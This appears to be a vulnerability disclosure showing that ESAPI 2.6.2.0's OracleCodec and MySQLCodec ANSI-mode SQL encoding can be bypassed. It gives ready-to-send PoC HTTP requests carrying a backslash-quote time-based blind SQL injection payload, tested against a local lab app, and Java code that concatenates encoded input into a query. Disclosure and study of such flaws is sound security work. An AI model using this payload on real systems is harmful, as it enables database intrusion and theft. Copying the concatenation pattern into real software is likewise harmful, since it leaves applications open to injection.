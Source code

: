 BUG_Author

Longlong Gong

# Project

Address: [esapi](https://github.com/ESAPI/esapi-java-legacy)

## 1、SQL injection filtering bypass

###  1.1、oracleCodec encodeForSQL bypass

[Affected version]

v2.6.2.0



[Affected Component]

```
Codec<Character> oracleCodec = new OracleCodec();
```



[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab



[Description]

When using Oracle's codec OracleCodex and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0

![image-20250604203837348](assets/image-20250604203837348.png)

Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,sleep(5),1) for the data packet payload--+

![image-20250604204352340](assets/image-20250604204352340.png)

You can see that the result is returned quickly without using the sleep function

![image-20250604204935285](assets/image-20250604204935285.png)

Next, we use the sleep function and can see that the database has executed the sleep function

![image-20250604204503427](assets/image-20250604204503427.png)

Let's follow the code and find that when passed in, it adds a back slash and a single quotation mark

![image-20250604204622028](assets/image-20250604204622028.png)

![image-20250604204706044](assets/image-20250604204706044.png)

After being encoded as a character, it became two single quotes, but the first one was commented as a regular character with a back slash, so it was bypassed

![image-20250604204812000](assets/image-20250604204812000.png)

You can see the last executed statement below

![image-20250604204837224](assets/image-20250604204837224.png)

Let's take a look at the latest code below

![image-20250604205026984](assets/image-20250604205026984.png)

![image-20250604205349843](assets/image-20250604205349843.png)

###  1.2、MySQLCodec ANSI encodeForSQL bypass

[Affected version]

v2.6.2.0



[Affected Component]

```
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
```



[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab



[Description]

When using MySQL codec's ANSI mode and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection defense can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection defense and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0

Let's first modify the code to make it compatible with the MySQL engine

```java
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
Class.forName("com.mysql.cj.jdbc.Driver");
Connection conn = DriverManager.getConnection(dbUrl, dbUser, dbPass);

Statement stmt = conn.createStatement();
String sql = "select * from sqli where id = '" + ESAPI.encoder().encodeForSQL(mysqlCodec, id) + "'";
```

Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,sleep(5),1) for the data packet payload--+

![image-20250604211139210](assets/image-20250604211139210.png)

![image-20250604211040745](assets/image-20250604211040745.png)

![image-20250604211105855](assets/image-20250604211105855.png)

Let's take a look at the latest code below

![image-20250604211504702](assets/image-20250604211504702.png)

![image-20250604211322503](assets/image-20250604211322503.png)

![image-20250604211550119](assets/image-20250604211550119.png)
